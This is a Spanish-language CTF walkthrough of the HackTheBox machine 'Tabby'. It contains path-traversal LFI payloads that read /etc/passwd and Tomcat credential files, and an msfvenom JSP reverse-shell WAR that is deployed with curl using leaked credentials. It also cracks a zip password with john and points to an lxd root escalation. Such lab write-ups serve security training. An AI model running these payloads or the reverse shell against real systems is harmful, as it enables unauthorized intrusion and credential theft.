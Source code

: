 # Tabby
## Initial Scan
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
```
## Enum
### HTTP
Bien en la pagina aparte de un correo con un domino no parece haber nada de utilidad
```
    sales@megahosting.htb
```
Vemos que en varios enlaces de la pagina como el de la seccion news hace referencia a el dominio de ese correo, añadamoslo a /etc/hosts y accedamos a esos enlaces.
### Tomcat
Al intentar acceder a /manager de tomcat nos enseña el mensaje:
```
 You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp. 
```
## Exploit
### LFI
Esta llamada parece acceder directamente a un archivo:
```
http://megahosting.htb/news.php?file=statement
```
Veamos si tenemos arbitrary file read accedeiendo a /etc/passwd
```
http://megahosting.htb/news.php?file=../../../../../../../../../../../etc/passwd
```
Podemos afinarlo a:
```
http://megahosting.htb/news.php?file=../../../../etc/passwd
```
De aqui podemos sacar varios usuarios relevantes
```
root:x:0:0:root:/root:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```
Tenemos un LFI y sabemos que hay un tomcat, hora de entrar hasta la cocina.
Mi primera idea fue esta:
```
http://megahosting.htb/news.php?file=../../../../opt/tomcat/conf/tomcat-users.xml
```
No funciona porque ese archivo no esta ahí , instalamos tomcat9 en local (sabemos que es la version 9 por que lo revela el puerto 8080) y tras esto miramos cuales son las rutas para este archivo, veremos que hay 2
```
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```
Probemos de nuevo pero con esta info, veremmos la pantalla en blanco al acceder pero si pulsamos ctrl u veremos que con la primera podemos leer esta configuracion
```
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```
Con estas creds accedemos a tomcat
```
http://megahosting.htb:8080/host-manager/html
```
Ahora veamos como subir una reverse shell, en este caso no podemos subir un war desde la gui, primero generemos el war 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IPtun0 LPORT=4444 -f war > shell.war    
```
Y vamos a subirlo directamente
```
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/hell'
```
Abrimos un listener y accedemos al endpoint donde se ha desplegado ahora mejoramos nuestra shell

## Privesc
### Ash
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
> id uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```
Dentro de la carpeta de la pagina web encontramo un zip
```
16162020_backup.zip
```
Nos lo pasamos a local mediante base64, copiar , pegar , base64 y 
```
zip2john backup.txt > hash.txt
john hash.txt --wordlist=rockyou.txt
admin@it         (backup.zip)
```
En el backup no hay nada nuevo pero si  que podemos usar esa contraseña para acceder al usuario ash.

### Root
```
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Podemos ver que somos parte del grupo lxd (que tine un exploit bien conocido para escalar privilegios) este [artículo](https://www.hackingarticles.in/lxd-privilege-escalation/) lo explica, solo con seguir los pasos llegaremos a root

